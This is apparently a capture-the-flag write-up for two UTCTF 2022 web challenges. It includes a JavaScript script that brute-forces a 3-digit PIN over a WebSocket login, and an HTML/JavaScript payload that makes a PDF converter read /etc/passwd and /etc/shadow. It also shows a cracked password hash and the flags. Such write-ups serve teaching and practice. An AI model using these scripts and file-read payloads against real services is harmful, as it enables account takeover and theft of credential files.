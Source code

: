 # UTCTF 2022 - Web 
## 1- Websockets? 
<center><img src="../images/websockets_chall.png"></img></center>

#### about : 
- Type: Web 
- Level: easy 
- Website : http://web1.utctf.live:8651
</br>

in login page **/internale/login** i found theis code js for login : 
```js
document.querySelector("input[type=submit]").addEventListener("click", checkPassword);

function checkPassword(evt) {
	evt.preventDefault();
	const socket = new WebSocket("ws://" + window.location.host + "/internal/ws")
	socket.addEventListener('message', (event) => {
		if (event.data == "begin") {
			socket.send("begin");
			socket.send("user " + document.querySelector("input[name=username]").value)
			socket.send("pass " + document.querySelector("input[name=password]").value)
		} else if (event.data == "baduser") {
			document.querySelector(".error").innerHTML = "Unknown user";
			socket.close()
		} else if (event.data == "badpass") {
			document.querySelector(".error").innerHTML = "Incorrect PIN";
			socket.close()
		} else if (event.data.startsWith("session ")) {
			document.cookie = "flask-session=" + event.data.replace("session ", "") + ";";
			socket.send("goodbye")
			socket.close()
			window.location = "/internal/user";
		} else {
			document.querySelector(".error").innerHTML = "Unknown error";
			socket.close()
		} 
	})
}
```
and a comment in the source code 
```html
<!-- what is this garbage, you ask? Well, most of our pins are now 16 digits, but we still have some old 3-digit pins left because tom is a moron and can't remember jack -->
```
so i tried a bruteforce on 3 digits in the user admin : 
here is the code (same code just tweaks on console)
```js
function get_pwd(){
    for (let i = 0 ; i < 10  ; i++) {
    for (let j = 0 ; j < 10  ; j++) {
    for (let k = 0 ; k < 10  ; k++) {
    const socket = new WebSocket("ws://" + "web1.utctf.live:8651" + "/internal/ws")
    socket.addEventListener('message', (event) => {
        let pss = i.toString() + k.toString() + j.toString();
        if (event.data == "begin") {
            socket.send("begin");
            socket.send("user " + "admin")
            socket.send("pass " + pss);
        } else if (event.data == "baduser") {
            console.log("Bad user : " + "admin")
            socket.close()
        } else if (event.data == "badpass") {
            console.log("Trying : " + pss);
            socket.close()
        } else if (event.data.startsWith("session ")) {
            console.log("found : " + pss);
            return  True;
        } else {
            console.log("Some error")
            socket.close()
        } 
    })
}}}
}
```
result : 

found : **907** 

so i loged in and got the flag : **utflag{w3bsock3ts}**

## 2- HTML2PDF
<center><img src="../images/html2pdf_chall.png"></img></center>

#### about : 
- Type: Web 
- Level: meduim 
- Website : http://web2.utctf.live:9854

The page gets inputs and convert it from HTML to PDF
<center><img src="../images/html2pdf_page.png"></img></center>

so i need to get local file inclusion inside the html so it can return it after the pdf is created i tried : 
```html
<h1 id='test2'>a</h1>
<script>x = new XMLHttpRequest();
x.open('GET','file:///etc/passwd',false);
x.send();
document.getElementById('test2').innerHTML= x.responseText;
</script>
```
basically what this do is fetch the file (internal) using javascript XMLHttpRequest class to get contenu before convert the page to pdf 

it worked. so now we have a basic LFI , so i chacked what privileges do i have , so i tried **/etc/shadow** and it worked , Nice 

<center><img src="../images/html2pdf_shadow.png"></img></center>

So , that WeakPasswordAdmin reveals itself , let's bruteforce with hashcat , i got 

```
$1$Rj9G/TPc$e5k/QAhlagK6pxGyfQNJ5.:sunshine
```
i loged in and got the flag : **utflag{b1g_r3d_t3am_m0v35_0ut_h3r3}**